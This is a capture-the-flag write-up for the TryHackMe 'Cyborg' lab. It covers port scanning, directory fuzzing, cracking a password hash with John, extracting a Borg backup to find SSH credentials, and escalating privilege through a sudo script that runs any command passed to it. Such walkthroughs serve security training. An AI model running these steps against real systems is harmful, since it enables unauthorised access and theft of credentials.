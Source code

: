 # Cyborg
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Brute Forcing 
* Hash Cracking 
* Borg Backup
* Linux Enumeration
* Sudoers file

Tools used
--
* nmap
* ffuf
* john

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.157.186
* Other information must be gathered during the attack

Phase 1: Enumeration
--
Let's use Nmap with `-g 53` argument for finding the port 80 as opened:
```
sudo nmap -sS -sC -sV 10.10.157.186 -p- -g 53 -vvv

<SNIP>
Initiating SYN Stealth Scan at 23:11
Scanning 10.10.157.186 [65535 ports]
Discovered open port 80/tcp on 10.10.157.186
Discovered open port 22/tcp on 10.10.157.186
<SNIP>
```
Let's visit the HTTP service by the browser and we get the Apache default page. Let's fuzz this website:
```
ffuf -u http://10.10.157.186/FFUF -H 'Host: 10.10.157.186' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko
/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=
0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share
/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 76ms]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 60ms]
```
`etc` has two files: `passwd` and `squid.conf`. The first one contains:
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
It seems to be cracked by John. The second one contains:
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```
Let's crack the hash above by John. Save this hash in the `music.hash` file and run:
```
john music.hash --wordlist=./rockyou.txt

<SNIP>
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
<SNIP>
```
Let's keep `squidward` as possible password.

Phase 2: Foothold
--
By visiting the website, we can see also the `http://10.10.157.186/admin/admin.html` page showing the following message:
```
<SNIP>
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
<SNIP>
```
It could be also related to the files we found in `etc` web directory.

Let's download the `archive.tar` from the Download button inside the web page, and untar it. We get some files inside `home/field/dev/final_archive` directory. By reading `README`, we notice it is a Borg Backup repository.

Let's take some information about Borg: https://medium.com/swlh/backing-up-with-borg-c6f13d74dd6

Borg is a backup software allowing to encrypt files we backup. What we can try to do and recover the backup:
```
cd home/field/dev/final_archive

borg list ./
Enter passphrase for key /home/athena/Downloads/archive/home/field/dev/final_archive: <squidward>
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

borg extract ./::music_archive
```
At this point we get a `home` directory. Let's search some useful information. We can get a note in `home/alex/Documents/note.txt` with the following content:
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
Let's login by SSH with these credentials:
```
ssh 10.10.157.186 -l alex
```
After login, we can get immediately the user flag in `user.txt` file.

Phase 3: Privilege Escalation
--
Let's upload LinPEAS on this target server by SCP protocol from the attacker machine:
```
scp linpeas.sh alex@10.10.157.186:/home/alex/
```
Come back to the victim machine session and run LinPEAS script. While LinPEAS runs, we can open another SSH session and try to search of something useful. If we execute `sudo -l`, we get:
```bash
sudo -l

Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
From the result we understand we can run `/etc/mp3backups/backup.sh` as `sudo` with `alex` user account. We need only to understand the content of `backup.sh`. Inside it, the interesting part is:
```bash
<SNIP>
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
<SNIP>
cmd=$($command)
echo $cmd
```
So we can execute:
```
sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'
```
let's wait some minute and we get our root flag.
